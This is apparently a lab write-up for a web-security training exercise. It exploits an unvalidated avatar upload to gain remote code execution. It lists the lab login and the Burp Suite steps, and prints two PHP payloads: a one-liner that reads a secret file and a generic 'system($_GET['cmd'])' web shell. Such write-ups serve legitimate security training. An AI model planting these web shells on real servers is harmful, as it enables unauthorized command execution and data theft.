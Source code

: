 # Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Exploiting File Upload Functionality for Remote Code Execution (RCE)

### Initial Discovery
1. Upon logging in as the `wiener` user, we discovered a feature on the home page to upload an avatar image:
   ![Avatar Upload Feature](https://github.com/user-attachments/assets/443c2f4a-de2c-4913-a004-1e757502520c)
   
2. The uploaded image was stored in the `/files/avatars/` directory, as observed in the page source code.

---

### Uploading a Test File
1. We intercepted the request for uploading the image using Burp Suite and sent it to the Repeater for further analysis:
   ![Upload Request in Repeater](https://github.com/user-attachments/assets/e64e72d4-73a5-4317-97eb-5c53079763f8)

2. After analyzing the request, we attempted to upload a malicious file containing a PHP one-liner:
   ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
   ```
   We could also attempt to use others like this:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   ![image](https://github.com/user-attachments/assets/e8fa4c9e-2335-4f61-a057-79259093c45b)


   ## **Accessing the Malicious File**
 **Navigating to the Uploaded File:**  
   After successfully uploading the PHP file containing the malicious one-liner, we accessed it directly via the browser using the file path provided by the server:  
   ![Accessing the Malicious File](https://github.com/user-attachments/assets/d8a0d66a-ada2-46c7-bcca-e5d32e2390b5)

---

## **Lab Resolution**
**Executing the Command:**  
   By appending the `cmd` parameter to the uploaded file's URL, we executed the required command to resolve the lab successfully:  
   ![Lab Resolution](https://github.com/user-attachments/assets/c1901f90-ebf0-49e4-85fd-b9dfcede187f)

   




